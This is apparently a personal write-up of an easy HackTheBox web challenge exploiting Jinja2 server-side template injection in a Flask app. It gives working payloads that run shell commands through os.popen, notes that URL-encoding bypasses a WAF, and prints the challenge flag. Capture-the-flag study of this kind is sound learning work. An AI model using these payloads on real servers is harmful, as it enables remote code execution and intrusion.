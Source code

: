 ```yaml
---
Category:
  - Web
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - SSTI
  - jinja
  - flask
---
```

>[!quote]
>*Can you exploit this simple mistake?*


# Set up

-

# Information Gathering

Enumerated home page:

![Pasted image 20210504184736.png](../../zzz_res/attachments/Pasted_image_20210504184736.png)

Enumerated reflection point:

![Pasted image 20210504184808.png](../../zzz_res/attachments/Pasted_image_20210504184808.png)

# The Bug

Searched online for Flask/Jinja2 vulnerabilities:

- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

![PoC Server Side Template Injection:](../../zzz_res/attachments/Pasted_image_20210504185003.png)

PoC Server Side Template Injection:

# Exploitation

`{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

![Pasted image 20210504185605.png](../../zzz_res/attachments/Pasted_image_20210504185605.png)

Url encoding everything is it possible to bypass the WAF:
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`

![Pasted image 20210504190153.png](../../zzz_res/attachments/Pasted_image_20210504190153.png)

## Flag.txt

>[!success]
>`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`